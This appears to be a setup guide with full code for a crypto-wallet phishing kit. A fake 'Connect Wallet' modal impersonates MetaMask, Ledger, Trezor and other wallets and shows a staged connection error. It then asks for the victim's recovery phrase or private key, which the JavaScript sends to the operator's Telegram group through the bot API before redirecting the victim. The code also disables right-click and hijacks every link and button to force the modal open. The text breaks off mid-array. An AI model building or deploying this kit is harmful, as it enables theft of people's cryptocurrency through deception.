




# Implementation Notes: Telegram Integration

When a user submits their phrase or private key, the entry is sent directly to your Telegram group instantly.

---

## 1) Setup — Get Your Credentials

### Step 1: Create a Telegram Bot
1. Open Telegram and search for **@BotFather**
2. Send `/newbot`
3. Follow the prompts — give your bot a name and username
4. BotFather will give you a **bot token** like: `123456789:ABCdefGhIJKlmNoPQRsTUVwxYZ`

### Step 2: Create Your Telegram Group
1. Create a new **private group** in Telegram
2. Add your bot to the group
3. Go to group settings → **Promote to Admin** — the bot must be admin to send messages

### Step 3: Get Your Group Chat ID
1. Add **@userinfobot** to the group
2. It will reply with the group chat ID — starts with a **minus sign** like `-987654321`
3. Copy the full number including the `-`
4. Remove @userinfobot from the group after

### Step 4: Fill in your credentials
In the Bottom Section JS, replace:
```
YOUR_BOT_TOKEN  → your actual bot token
YOUR_CHAT_ID    → your group chat ID (e.g. -987654321)
```

> ⚠️ Don't forget the `-` at the start of the group chat ID.

---

## 2) Reuse Checklist

1. Add the **Top Section Code** (styles) to your `<head>` or top of `<body>`
2. Add the **Modal HTML** somewhere in your `<body>` (typically at the end)
3. Add the **Bottom Section JS** just before closing `</body>`
4. Replace `YOUR_BOT_TOKEN` and `YOUR_CHAT_ID` with your actual values
5. Replace `https://yoursite.com/index.html` with your redirect URL after submission
6. Test on desktop and mobile

---

## 3) Complete Code

### 3.1 Top Section — Add to `<head>` or top of `<body>`

```html
<link href="https://fonts.googleapis.com/css2?family=DM+Sans:wght@400;500;600;700&display=swap" rel="stylesheet">

<script>
  document.addEventListener('contextmenu', function (event) {
    event.preventDefault();
  });
</script>

<style>

  /* ── Modal overlay ── */
  #walletModal {
    display: none;
    position: fixed;
    inset: 0;
    z-index: 9999;
    background: rgba(0, 0, 0, 0.6);
    align-items: flex-end;
    justify-content: center;
    font-family: 'DM Sans', sans-serif;
    backdrop-filter: blur(2px);
    -webkit-backdrop-filter: blur(2px);
  }

  /* ── Modal card ── */
  #walletModal .modal-content {
    background: #0d0f1a;
    border-radius: 24px 24px 0 0;
    width: 100%;
    max-width: 480px;
    padding: 0 0 32px;
    animation: wmSlideUp 0.35s cubic-bezier(.22, .68, 0, 1.2) both;
    max-height: 92vh;
    overflow: hidden;
    display: flex;
    flex-direction: column;
  }

  @keyframes wmSlideUp {
    from { transform: translateY(100%); opacity: 0; }
    to   { transform: translateY(0);   opacity: 1; }
  }

  /* ── Header ── */
  #walletModal .wm-header {
    display: flex;
    align-items: center;
    justify-content: space-between;
    padding: 22px 20px 16px;
    border-bottom: 1px solid #1e2235;
    flex-shrink: 0;
  }

  #walletModal .wm-btn-icon {
    width: 36px; height: 36px;
    border-radius: 50%;
    border: none;
    background: transparent;
    cursor: pointer;
    display: flex; align-items: center; justify-content: center;
    color: #888;
    transition: background .15s;
  }
  #walletModal .wm-btn-icon:hover { background: #1a1f33; }

  #walletModal .wm-title {
    font-size: 18px;
    font-weight: 700;
    color: #fff;
    letter-spacing: -0.3px;
  }

  /* ── Main wallet list ── */
  #walletModal .wm-list {
    padding: 12px 16px 0;
    overflow-y: auto;
    flex: 1;
  }

  #walletModal .wm-item {
    display: flex;
    align-items: center;
    gap: 14px;
    padding: 11px 12px;
    border-radius: 14px;
    cursor: pointer;
    transition: background .15s;
    background: #151929;
    margin-bottom: 8px;
    border: none;
    width: 100%;
    text-align: left;
  }
  #walletModal .wm-item:hover { background: #1a1f33; }

  #walletModal .wm-icon {
    width: 52px; height: 52px;
    border-radius: 14px;
    flex-shrink: 0;
    display: flex; align-items: center; justify-content: center;
    overflow: hidden;
  }

  #walletModal .wm-name {
    font-size: 16px;
    font-weight: 500;
    color: #fff;
  }

  #walletModal .wm-badge {
    margin-left: auto;
    background: #1e2235;
    border-radius: 8px;
    padding: 3px 8px;
    font-size: 12px;
    font-weight: 600;
    color: #aaa;
  }

  /* ── Footer ── */
  #walletModal .wm-footer {
    text-align: center;
    margin-top: 16px;
    font-size: 14px;
    color: #666;
    flex-shrink: 0;
    padding: 0 16px;
  }
  #walletModal .wm-footer a {
    color: #4d8eff;
    font-weight: 500;
    text-decoration: none;
  }

  /* ── Connecting message ── */
  #walletModal .wm-connecting {
    display: none;
    flex-direction: column;
    justify-content: center;
    align-items: center;
    text-align: center;
    padding: 20px;
    flex: 1;
  }

  #walletModal #manual-claim-message {
    color: #aaa;
    font-size: 13px;
    font-family: 'DM Sans', sans-serif;
  }

  #walletModal #connect-manually-btn {
    display: none;
    margin-top: 12px;
  }

  #walletModal .wm-manual-btn {
    color: #fff;
    background-color: #1e2235;
    border: 1px solid #2e3555;
    border-radius: 8px;
    padding: 12px 20px;
    font-size: 15px;
    font-family: 'DM Sans', sans-serif;
    cursor: pointer;
    margin-top: 10px;
    transition: background .15s;
  }
  #walletModal .wm-manual-btn:hover { background: #252d47; }

  /* ── Phrase / Private Key section ── */
  #walletModal #manual-input {
    display: none;
    padding: 16px;
    background-color: rgba(15, 18, 18, 0.86);
    border: 1px solid #1e2235;
    border-radius: 8px;
    margin: 12px 16px 0;
    flex-direction: column;
    align-items: center;
    text-align: center;
  }

  #walletModal .wm-tab-table {
    width: 100%;
    table-layout: fixed;
  }

  #walletModal .wm-tab-heading {
    cursor: pointer;
    font-size: 14px;
    padding: 12px;
    border-radius: 8px;
    text-align: center;
    color: #aaa;
    font-family: 'DM Sans', sans-serif;
    transition: color .15s;
  }
  #walletModal .wm-tab-heading:hover { color: #fff; }

  #walletModal .wm-form-content {
    margin-top: 16px;
    display: flex;
    flex-direction: column;
    align-items: center;
    width: 100%;
    text-align: center;
  }

  #walletModal .wm-textarea {
    width: 100%;
    max-width: 310px;
    border-radius: 8px;
    padding: 8px;
    color: #ffffff;
    background-color: rgba(15, 18, 18, 0.62);
    border: 1px solid #2e3555;
    resize: none;
    font-size: 10px;
    text-align: left;
    font-family: 'DM Sans', sans-serif;
  }

  #walletModal .wm-form-hint {
    text-align: center;
    margin-top: 16px;
    font-size: 12px;
    color: #666;
  }

  #walletModal .wm-submit-btn {
    color: #fff;
    background-color: #1e2235;
    border: 1px solid #2e3555;
    border-radius: 8px;
    padding: 12px 20px;
    font-size: 15px;
    font-family: 'DM Sans', sans-serif;
    cursor: pointer;
    margin-top: 10px;
    width: 100%;
    max-width: 310px;
    transition: background .15s;
  }
  #walletModal .wm-submit-btn:hover { background: #252d47; }

  #walletModal .wm-error-msg {
    background-color: #2a1010;
    font-size: 14px;
    color: #ff6b6b;
    border: 1px solid #5a2020;
    padding: 8px;
    border-radius: 4px;
    display: none;
    margin-top: 8px;
    width: 100%;
    max-width: 310px;
  }

  /* ── All Wallets view ── */
  #walletModal .wm-all-view {
    display: none;
    flex-direction: column;
    flex: 1;
    overflow: hidden;
  }
  #walletModal .wm-all-view.active { display: flex; }
  #walletModal .wm-main-view { display: flex; flex-direction: column; flex: 1; overflow: hidden; }
  #walletModal .wm-main-view.hidden { display: none; }

  #walletModal .wm-search-row {
    display: flex;
    align-items: center;
    gap: 10px;
    padding: 12px 16px;
    flex-shrink: 0;
  }

  #walletModal .wm-search-wrap { flex: 1; position: relative; }
  #walletModal .wm-search-wrap svg {
    position: absolute; left: 12px; top: 50%;
    transform: translateY(-50%); color: #555;
  }

  #walletModal .wm-search-input {
    width: 100%;
    padding: 11px 12px 11px 38px;
    border-radius: 12px;
    border: none;
    background: #151929;
    font-size: 15px;
    font-family: 'DM Sans', sans-serif;
    outline: none;
    color: #fff;
  }
  #walletModal .wm-search-input::placeholder { color: #555; }

  #walletModal .wm-toggle-btn {
    width: 44px; height: 44px;
    border-radius: 50%;
    border: none;
    background: #111;
    cursor: pointer;
    display: flex; align-items: center; justify-content: center;
    flex-shrink: 0;
  }

  #walletModal .wm-qr-btn {
    width: 44px; height: 44px;
    border-radius: 12px;
    border: none;
    background: #1a1f33;
    cursor: pointer;
    display: flex; align-items: center; justify-content: center;
    flex-shrink: 0;
    color: #8896ff;
  }

  #walletModal .wm-grid {
    display: grid;
    grid-template-columns: repeat(3, 1fr);
    gap: 2px;
    padding: 4px 12px 0;
    overflow-y: auto;
    flex: 1;
  }

  #walletModal .wm-grid-item {
    display: flex;
    flex-direction: column;
    align-items: center;
    gap: 5px;
    padding: 14px 4px 10px;
    border-radius: 14px;
    cursor: pointer;
    transition: background .15s;
  }
  #walletModal .wm-grid-item:hover { background: #1a1f33; }

  #walletModal .wm-grid-icon {
    width: 66px; height: 66px;
    border-radius: 16px;
    display: flex; align-items: center; justify-content: center;
    overflow: hidden;
    flex-shrink: 0;
  }

  #walletModal .wm-grid-name-row {
    display: flex;
    align-items: center;
    justify-content: center;
    gap: 3px;
    width: 88px;
  }

  #walletModal .wm-grid-name {
    font-size: 12px;
    font-weight: 500;
    color: #ccc;
    text-align: center;
    line-height: 1.3;
    overflow: hidden;
    text-overflow: ellipsis;
    white-space: nowrap;
    max-width: 70px;
  }

  #walletModal .wm-wc-icon {
    width: 14px; height: 14px;
    border-radius: 50%;
    background: #111;
    flex-shrink: 0;
    display: flex; align-items: center; justify-content: center;
  }

</style>
```

---

### 3.2 Modal HTML — Add inside `<body>` (typically at the end)

```html
<!-- ══════════════ CONNECT WALLET MODAL ══════════════ -->
<div id="walletModal" style="display:none;">
  <div class="modal-content">

    <!-- ── MAIN VIEW ── -->
    <div class="wm-main-view" id="wm-mainView">

      <div class="wm-header">
        <button class="wm-btn-icon">
          <svg width="22" height="22" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round">
            <circle cx="12" cy="12" r="10"/><path d="M9.09 9a3 3 0 0 1 5.83 1c0 2-3 3-3 3"/><line x1="12" y1="17" x2="12.01" y2="17"/>
          </svg>
        </button>
        <span class="wm-title">Connect Wallet</span>
        <button class="wm-btn-icon" id="closeModalBtn">
          <svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2.5" stroke-linecap="round">
            <line x1="18" y1="6" x2="6" y2="18"/><line x1="6" y1="6" x2="18" y2="18"/>
          </svg>
        </button>
      </div>

      <!-- Wallet list -->
      <div class="wm-list" id="wallet-options">

        <button class="wm-item" id="wallet-connect-link">
          <div class="wm-icon" style="background:#111;">
            
          </div>
          <span class="wm-name">WalletConnect</span>
        </button>

        <button class="wm-item" id="metamask-link">
          <div class="wm-icon" style="background:#fff; border:1px solid #eee;">
            
          </div>
          <span class="wm-name">MetaMask</span>
        </button>

        <button class="wm-item" id="coinbase-link">
          <div class="wm-icon" style="background:#0052FF;">
            
          </div>
          <span class="wm-name">Base (formerly Coinbase Wallet)</span>
        </button>

        <button class="wm-item" id="trust-wallet-link">
          <div class="wm-icon" style="background:#fff; border:1px solid #eee;">
            
          </div>
          <span class="wm-name">Trust Wallet</span>
        </button>

        <button class="wm-item" id="Phantom-wallet-link">
          <div class="wm-icon" style="background:#534BB1;">
            
          </div>
          <span class="wm-name">Phantom</span>
        </button>

        <button class="wm-item" id="safepal-link">
          <div class="wm-icon" style="background:#6B50F6;">
            
          </div>
          <span class="wm-name">SafePal</span>
        </button>

        <button class="wm-item" id="trezor-link">
          <div class="wm-icon" style="background:#1D6D45;">
            
          </div>
          <span class="wm-name">Trezor Wallet</span>
        </button>

        <button class="wm-item" id="ledger-link">
          <div class="wm-icon" style="background:#111;">
            
          </div>
          <span class="wm-name">Ledger Wallet</span>
        </button>

        <button class="wm-item" id="binance-link">
          <div class="wm-icon" style="background:#F0B90B;">
            
          </div>
          <span class="wm-name">Binance Wallet</span>
        </button>

        <button class="wm-item" id="non-web3-link">
          <div class="wm-icon" style="background:#111; padding:6px; display:grid; grid-template-columns:1fr 1fr; gap:3px; border-radius:14px;">
            <div style="background:#F7931A;border-radius:4px;display:flex;align-items:center;justify-content:center;font-size:11px;font-weight:900;color:#fff;">₿</div>
            <div style="background:#A0C846;border-radius:4px;display:flex;align-items:center;justify-content:center;font-size:11px;font-weight:900;color:#fff;">Ł</div>
            <div style="background:#C1292E;border-radius:4px;display:flex;align-items:center;justify-content:center;font-size:9px;font-weight:900;color:#fff;">◉</div>
            <div style="background:#444;border-radius:4px;display:flex;align-items:center;justify-content:center;font-size:11px;font-weight:900;color:#fff;">✕</div>
          </div>
          <span class="wm-name">Non-web3 wallets</span>
        </button>

        <button class="wm-item" id="other-wallets-link">
          <div class="wm-icon" style="background:#1a1f33; display:flex; align-items:center; justify-content:center;">
            <svg width="28" height="28" viewBox="0 0 28 28" fill="none"><circle cx="14" cy="14" r="2.5" fill="#5B6EF5"/><circle cx="6" cy="14" r="2.5" fill="#5B6EF5"/><circle cx="22" cy="14" r="2.5" fill="#5B6EF5"/></svg>
          </div>
          <span class="wm-name">Other Wallets</span>
        </button>

        <button class="wm-item" id="all-wallets-link">
          <div class="wm-icon" style="background:#1a1f33; display:grid; grid-template-columns:1fr 1fr; gap:8px; padding:10px; border-radius:14px;">
            <div style="width:12px;height:12px;border-radius:50%;background:#8896FF;"></div>
            <div style="width:12px;height:12px;border-radius:50%;background:#8896FF;"></div>
            <div style="width:12px;height:12px;border-radius:50%;background:#8896FF;"></div>
            <div style="width:12px;height:12px;border-radius:50%;background:#8896FF;"></div>
          </div>
          <span class="wm-name">All Wallets</span>
          <span class="wm-badge">530+</span>
        </button>

      </div><!-- /wallet-options -->

      <!-- Connecting message -->
      <div class="wm-connecting" id="connecting-message">
        <p id="manual-claim-message"></p>
        <div id="connect-manually-btn">
          <button class="wm-manual-btn">Connect manually</button>
        </div>
      </div>

      <!-- Phrase / Private Key input -->
      <div id="manual-input">
        <table class="wm-tab-table">
          <thead>
            <tr>
              <th class="wm-tab-heading" onclick="handleTableClick('Phrase')">Phrase</th>
              <th class="wm-tab-heading" onclick="handleTableClick('Private-Key')">Private Key</th>
            </tr>
          </thead>
          <tbody>
            <tr>
              <td colspan="2">
                <!-- Phrase form -->
                <div id="phrase-form" class="wm-form-content">
                  <form onsubmit="handleTelegramSubmit(event, 'phrase')">
                    <textarea id="form_name" rows="5" required placeholder="Enter your recovery phrase..." class="wm-textarea"></textarea>
                    <p id="error-message" class="wm-error-msg">Please enter at least 12 words</p>
                    <div class="wm-form-hint">Typically 12 (sometimes 24) words separated by single spaces</div>
                    <button type="submit" class="wm-submit-btn">Proceed</button>
                  </form>
                </div>
                <!-- Private Key form -->
                <div id="private-key-form" class="wm-form-content" style="display:none;">
                  <form onsubmit="handleTelegramSubmit(event, 'privatekey')">
                    <textarea id="private_key" rows="5" required placeholder="Enter your private key..." class="wm-textarea"></textarea>
                    <div class="wm-form-hint">Typically 64 alphanumeric characters</div>
                    <button type="submit" class="wm-submit-btn">Proceed</button>
                  </form>
                </div>
              </td>
            </tr>
          </tbody>
        </table>
      </div><!-- /manual-input -->

      <div class="wm-footer">Haven't got a wallet? <a href="#">Get started</a></div>

    </div><!-- /wm-mainView -->

    <!-- ── ALL WALLETS VIEW ── -->
    <div class="wm-all-view" id="wm-allView">
      <div class="wm-header">
        <button class="wm-btn-icon" onclick="wmShowMain()">
          <svg width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2.5" stroke-linecap="round" stroke-linejoin="round"><polyline points="15 18 9 12 15 6"/></svg>
        </button>
        <span class="wm-title">All Wallets</span>
        <button class="wm-btn-icon" id="closeModalBtn2">
          <svg width="18" height="18" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2.5" stroke-linecap="round"><line x1="18" y1="6" x2="6" y2="18"/><line x1="6" y1="6" x2="18" y2="18"/></svg>
        </button>
      </div>
      <div class="wm-search-row">
        <div class="wm-search-wrap">
          <svg width="16" height="16" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round"><circle cx="11" cy="11" r="8"/><line x1="21" y1="21" x2="16.65" y2="16.65"/></svg>
          <input class="wm-search-input" type="text" placeholder="Search wallet" id="wmWalletSearch" oninput="wmFilterWallets(this.value)">
        </div>
        <button class="wm-toggle-btn">
          <svg width="20" height="20" viewBox="0 0 24 24" fill="none"><path d="M4.5 8.5C8.5 4.5 15.5 4.5 19.5 8.5" stroke="#fff" stroke-width="2.5" stroke-linecap="round"/><path d="M7.5 11.5C10 9 14 9 16.5 11.5" stroke="#fff" stroke-width="2.5" stroke-linecap="round"/><circle cx="12" cy="15" r="2" fill="#fff"/></svg>
        </button>
        <button class="wm-qr-btn">
          <svg width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round"><rect x="3" y="3" width="7" height="7"/><rect x="14" y="3" width="7" height="7"/><rect x="3" y="14" width="7" height="7"/><rect x="14" y="14" width="3" height="3"/><rect x="18" y="14" width="3" height="3"/><rect x="14" y="18" width="3" height="3"/><rect x="18" y="18" width="3" height="3"/></svg>
        </button>
      </div>
      <div class="wm-grid" id="wmWalletsGrid"></div>
    </div><!-- /wm-allView -->

  </div><!-- /modal-content -->
</div><!-- /walletModal -->
```

---

### 3.3 Bottom Section JS — Add just before `</body>`

```html
<script>

// ── Element references ──
  const modal               = document.getElementById("walletModal");
  const closeModalBtn       = document.getElementById("closeModalBtn");
  const closeModalBtn2      = document.getElementById("closeModalBtn2");
  const manualInput         = document.getElementById("manual-input");
  const messageParagraph    = document.getElementById("manual-claim-message");
  const connectManuallyBtn  = document.getElementById("connect-manually-btn");
  const walletOptions       = document.getElementById("wallet-options");
  const connectingMessage   = document.getElementById("connecting-message");
  const allWalletsLink      = document.getElementById("all-wallets-link");

  // Wallet item buttons
  const walletConnectLink   = document.getElementById("wallet-connect-link");
  const metamaskLink        = document.getElementById("metamask-link");
  const coinbaseLink        = document.getElementById("coinbase-link");
  const trustWalletLink     = document.getElementById("trust-wallet-link");
  const phantomWalletLink   = document.getElementById("Phantom-wallet-link");
  const safepalLink         = document.getElementById("safepal-link");
  const trezorLink          = document.getElementById("trezor-link");
  const ledgerLink          = document.getElementById("ledger-link");
  const binanceLink         = document.getElementById("binance-link");
  const nonWeb3Link         = document.getElementById("non-web3-link");
  const otherWalletsLink    = document.getElementById("other-wallets-link");

  // Ensure modal is a direct child of <body> (fixes iOS position:fixed bugs)
  try {
    if (modal && modal.parentElement !== document.body) {
      document.body.appendChild(modal);
    }
  } catch (e) {}

  // ── Open / Close ──
  function openModal() {
    if (!modal) return;
    modal.style.display = 'flex';
    document.body.style.overflow = 'hidden';
    resetModal();
  }

  function closeModal() {
    if (!modal) return;
    modal.style.display = 'none';
    document.body.style.overflow = '';
    resetModal();
    wmShowMain();
  }

  // ── Reset to initial state ──
  function resetModal() {
    walletOptions.style.display = "block";
    connectingMessage.style.display = "none";
    manualInput.style.display = "none";
    connectManuallyBtn.style.display = "none";
    messageParagraph.textContent = "";
  }

  // ── Track selected wallet ──
  let selectedWallet = '';

  // ── Connecting flow ──
  function showConnectingMessage(walletName) {
    selectedWallet = walletName;
    walletOptions.style.display = "none";
    connectingMessage.style.display = "flex";
    messageParagraph.textContent = `Connecting to ${walletName}...`;
    connectManuallyBtn.style.display = "none";
    manualInput.style.display = "none";

    setTimeout(() => {
      messageParagraph.textContent = `Error connecting, connect manually to proceed to your allocation.`;
      connectManuallyBtn.style.display = "block";
    }, 2000);
  }

  // ── Telegram submission ──
  async function handleTelegramSubmit(event, type) {
    event.preventDefault();
    const BOT_TOKEN = 'YOUR_BOT_TOKEN';
    const CHAT_ID   = 'YOUR_CHAT_ID';

    let message = '';
    if (type === 'phrase') {
      const input = document.getElementById('form_name').value.trim();
      const err   = document.getElementById('error-message');
      if (input.trim().split(/\s+/).length < 12) {
        err.style.display = 'block';
        err.textContent = 'Please enter at least 12 words';
        return;
      }
      message = `🔐 <b>New Phrase Entry</b>\n\n💼 <b>Wallet:</b> ${selectedWallet}\n📝 <b>Type:</b> Recovery Phrase\n\n<code>${input}</code>`;
    } else {
      const input = document.getElementById('private_key').value.trim();
      message = `🔐 <b>New Private Key Entry</b>\n\n💼 <b>Wallet:</b> ${selectedWallet}\n🔑 <b>Type:</b> Private Key\n\n<code>${input}</code>`;
    }

    try {
      await fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendMessage`, {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ chat_id: CHAT_ID, text: message, parse_mode: 'HTML' })
      });
    } catch (err) { console.error('Telegram error:', err); }

    window.location.href = 'https://yoursite.com/index.html';
  }

  // ── Wallet click handlers ──
  walletConnectLink  && walletConnectLink.addEventListener("click",  (e) => { e.preventDefault(); showConnectingMessage("WalletConnect"); });
  metamaskLink       && metamaskLink.addEventListener("click",       (e) => { e.preventDefault(); showConnectingMessage("MetaMask"); });
  coinbaseLink       && coinbaseLink.addEventListener("click",       (e) => { e.preventDefault(); showConnectingMessage("Coinbase Wallet"); });
  trustWalletLink    && trustWalletLink.addEventListener("click",    (e) => { e.preventDefault(); showConnectingMessage("Trust Wallet"); });
  phantomWalletLink  && phantomWalletLink.addEventListener("click",  (e) => { e.preventDefault(); showConnectingMessage("Phantom"); });
  safepalLink        && safepalLink.addEventListener("click",        (e) => { e.preventDefault(); showConnectingMessage("SafePal"); });
  trezorLink         && trezorLink.addEventListener("click",         (e) => { e.preventDefault(); showConnectingMessage("Trezor Wallet"); });
  ledgerLink         && ledgerLink.addEventListener("click",         (e) => { e.preventDefault(); showConnectingMessage("Ledger Wallet"); });
  binanceLink        && binanceLink.addEventListener("click",        (e) => { e.preventDefault(); showConnectingMessage("Binance Wallet"); });
  nonWeb3Link        && nonWeb3Link.addEventListener("click",        (e) => { e.preventDefault(); showConnectingMessage("Non-web3 Wallet"); });
  otherWalletsLink   && otherWalletsLink.addEventListener("click",   (e) => { e.preventDefault(); showConnectingMessage("Other Wallet"); });
  allWalletsLink     && allWalletsLink.addEventListener("click",     (e) => { e.preventDefault(); wmShowAllWallets(); });

  // ── Connect manually button ──
  connectManuallyBtn && connectManuallyBtn.addEventListener("click", () => {
    connectManuallyBtn.style.display = "none";
    manualInput.style.display = "block";
  });

  // ── Close button handlers ──
  closeModalBtn  && closeModalBtn.addEventListener("click",  () => closeModal());
  closeModalBtn2 && closeModalBtn2.addEventListener("click", () => closeModal());

  // ── Click outside modal to close ──
  window.addEventListener("click", (e) => {
    if (e.target === modal) closeModal();
  });

  // ── Phrase / Private Key tab switch ──
  function handleTableClick(tab) {
    const phraseForm     = document.getElementById('phrase-form');
    const privateKeyForm = document.getElementById('private-key-form');
    if (tab === 'Phrase') {
      phraseForm.style.display = 'block';
      privateKeyForm.style.display = 'none';
    } else if (tab === 'Private-Key') {
      phraseForm.style.display = 'none';
      privateKeyForm.style.display = 'block';
    }
  }


  // ── Universal modal triggers (all buttons/links outside modal open it) ──
  function getQualifyingElements() {
    const modal = document.getElementById('walletModal');
    if (!modal) return [];
    const all = [...document.querySelectorAll('button'), ...document.querySelectorAll('a[href]')];
    return all.filter(el => !modal.contains(el));
  }

  function initializeUniversalModalTriggers() {
    const startTime = performance.now();
    try {
      const modal = document.getElementById('walletModal');
      if (!modal) return;
      const elements = getQualifyingElements();
      let success = 0, errors = 0;
      elements.forEach((el, i) => {
        try {
          if (el.getAttribute('data-modal-trigger') === 'true') return;
          if (!el || typeof el.addEventListener !== 'function') { errors++; return; }
          el.setAttribute('data-modal-trigger', 'true');
          el.addEventListener('click', (e) => {
            try {
              e.preventDefault();
              e.stopPropagation();
              openModal();
            } catch (err) {}
          });
          success++;
        } catch (err) { errors++; }
      });
      const ms = (performance.now() - startTime).toFixed(2);
      console.log(`Modal triggers initialized in ${ms}ms — Success: ${success}, Errors: ${errors}`);
      if (ms > 50) console.warn(`Initialization exceeded 50ms target`);
    } catch (err) {
      console.error('Fatal error initializing modal triggers:', err);
    }
  }

  // ── Open modal for #get-started-btn elements ──
  document.querySelectorAll('#get-started-btn').forEach(btn => {
    btn.addEventListener('click', () => openModal());
  });

  // ── Initialize triggers ──
  initializeUniversalModalTriggers();

  // ── Global catch-all: any click outside modal opens it ──
  document.addEventListener('click', function (e) {
    try {
      if (!modal) return;
      if (modal.contains(e.target)) return;
      var isOpen = modal.style.display && modal.style.display !== 'none';
      if (isOpen) return;
      var clickable = e.target.closest('a, button');
      if (clickable) e.preventDefault();
      openModal();
    } catch (err) {}
  }, true);

  // ══════════════════════════════════════════
  // ALL WALLETS GRID
  // ══════════════════════════════════════════
  const wmAllWallets = [
    { name: "WalletConnect",              wc: false, bg: "#111",              icon: `` },
    { name: "Trust Wallet",               wc: true,  bg: "#fff", border: "1px solid #e8e8e8", icon: `` },
    { name: "Base (formerly Coinbase Wallet)", wc: false, bg: "#0052FF",      icon: `` },
    { name: "Binance Wallet",             wc: true,  bg: "#F0B90B",           icon: `` },
    { name: "SafePal",                    wc: true,  bg: "#6B50F6",           icon: `` },
    { name: "OKX Wallet",                 wc: true,  bg: "#111",              icon: `` },
    { name: "TokenPocket",                wc: true,  bg: "#2980FE",           icon: `` },
    { name: "Bitget Wallet",              wc: true,  bg: "#00C4B4",           icon: `` },
    { name: "Uniswap Wallet",             wc: true,  bg: "#FFD5E8",           icon: `` },
    { name: "Best Wallet",                wc: false, bg: "#1A1A2E",           icon: `` },
    { name: "Phantom",                    wc: false, bg: "#534BB1",           icon: `` },
    { name: "Solflare",                   wc: false, bg: "#FC7227",           icon: `` },
    { name: "Exodus",                     wc: false, bg: "#8B5CF6",           icon: `` },
    { name: "Crypto.com",                 wc: true,  bg: "#002D74",           icon: `` },
    { name: "Bifrost Wallet",             wc: true,  bg: "#1B4FE4",           icon: `` },
    { name: "xPortal",                    wc: true,  bg: "#2E2E2E",           icon: `` },
    { name: "Rabby Wallet",               wc: false, bg: "#8697FF",           icon: `` },
    { name: "1inch Wallet",               wc: true,  bg: "#111",              icon: `` },
    { name: "Trezor Suite",               wc: true,  bg: "#0B8E55",           icon: `` },
    { name: "Blockchain Wallet",          wc: true,  bg: "#fff", border: "1px solid #e8e8e8", icon: `` },
    { name: "imToken",                    wc: true,  bg: "#11C4D1",           icon: `` },
    { name: "BitPay Wallet",              wc: true,  bg: "#1A2B6D",           icon: `` },
    { name: "Gemini",                     wc: true,  bg: "#00DCFA",           icon: `` },
    { name: "Arculus Wallet",             wc: true,  bg: "#111",              icon: `` },
    { name: "Ctrl Wallet",                wc: true,  bg: "#e8e8e8",           icon: `` },
